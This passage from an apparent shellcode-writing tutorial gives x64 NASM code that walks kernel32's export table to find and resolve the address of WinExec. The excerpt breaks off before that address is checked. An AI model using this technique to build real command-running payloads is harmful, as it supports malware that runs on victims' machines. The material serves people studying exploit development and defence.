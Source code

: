 **Now, let's find the function in question:**

```nasm
; Loop over Export Address Table to find WinApi names
kernel32findfunction: 
    jecxz FunctionNameNotFound    ; If ecx is zero (function not found), set breakpoint
    xor ebx,ebx                   ; Zero EBX
    mov ebx, [r11+4+rcx*4]        ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA to get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
   
    mov r9, qword [rax]                ; R9 = "WinExec"
    cmp [rbx], r9                      ; Compare all bytes
    jz FunctionNameFound               ; jump if zero flag is set (found function name!)
	jnz kernel32findfunction             ; didn't find the name, so keep loopin til we do!

FunctionNameFound:
push rcx                               ; found it, so save it for later
jmp OrdinalLookupSetup

FunctionNameNotFound:
int3
```

**And now the final stretch of code:**

```nasm
OrdinalLookupSetup:  ;We found our target WinApi position in the functions lookup
   pop r15         ;getprocaddress position
   js OrdinalLookup
   
OrdinalLookup:   
   mov rcx, r15                  ; move our function's place into RCX
   xor r11, r11                  ; clear R11 for use
   mov r11d, [rdx+0x24]          ; AddressOfNameOrdinals = RVA
   add r11, r8                   ; AddressOfNameOrdinals = VMA
   ; Get the function ordinal from AddressOfNameOrdinals
   inc rcx
   mov r13w, [r11+rcx*2]         ; AddressOfNameOrdinals + Counter. RCX = counter
   ;With the function ordinal value, we can finally lookup the WinExec address from AddressOfFunctions.

   xor r11, r11
   mov r11d, [rdx+0x1c]          ; AddressOfFunctions = RVA
   add r11, r8                   ; AddressOfFunctions VMA in R11. Kernel32+RVA for function addresses
   mov eax, [r11+4+r13*4]        ; function RVA.
   add rax, r8                   ; Found the WinExec Api address!!!
   push rax                      ; Store function addresses by pushing it temporarily
   js executeit
```

**Let's see if our WinExec API address is now in RAX:**
